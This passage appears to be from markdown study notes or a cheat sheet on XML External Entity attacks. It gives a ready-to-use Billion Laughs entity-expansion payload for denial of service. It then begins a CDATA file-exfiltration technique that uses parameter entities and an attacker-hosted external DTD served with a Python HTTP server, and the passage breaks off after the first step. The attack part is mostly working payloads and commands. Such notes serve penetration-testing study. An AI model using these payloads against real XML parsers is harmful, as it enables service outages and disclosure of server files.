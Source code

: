 #### Denial of Service (Billion Laughs)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
]>
<root>
    <email>&a5;</email>
</root>
```

---

## 2. Advanced File Disclosure

### Advanced Exfiltration with CDATA

#### Problem with Special Characters
**Issue:** Files containing XML special characters break entity parsing
```
< > & " ' characters break XML format
Binary data cannot be included in XML
```

#### CDATA Solution
**Theory:** Wrap content in CDATA to treat as raw data
```xml
<![CDATA[ ANY_CONTENT_INCLUDING_SPECIAL_CHARS ]]>
```

#### Parameter Entity Bypass
**Problem:** Cannot join internal and external entities directly
```xml
<!-- This doesn't work -->
<!ENTITY joined "&begin;&file;&end;">
```

**Solution:** Use Parameter Entities (`%`)
```xml
<!-- This works with external DTD -->
<!ENTITY joined "%begin;%file;%end;">
```

#### Complete CDATA Attack

**Step 1: Create External DTD**
```bash
# Create xxe.dtd file
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

# Start HTTP server
python3 -m http.server 8000
```
